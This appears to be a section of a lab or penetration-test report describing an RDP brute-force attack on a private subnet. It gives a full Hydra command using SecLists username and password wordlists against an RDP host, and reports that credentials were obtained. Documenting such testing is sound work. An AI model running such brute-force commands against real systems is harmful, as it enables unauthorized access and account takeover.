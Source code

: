 ## 5.4 RDP Brute-Force Attack Using Hydra

Based on the scanned `192.168.3.0/24` subnet, a **brute-force attack** was performed using **Hydra** and **wordlists from the SecLists package** to attempt logging into the victim machine via RDP.

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
      -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt \
      -t 2 -V -f -u rdp://192.168.3.10
```

The attempt was **successful**, and **valid login credentials were obtained**  
(**Figure 5**).

![Figure 5 — Terminal output showing successful RDP password cracking with Hydra](./images/hydra_rdp_bruteforce_success.png)

**Figure 5 — Terminal output showing successful RDP password cracking with Hydra**
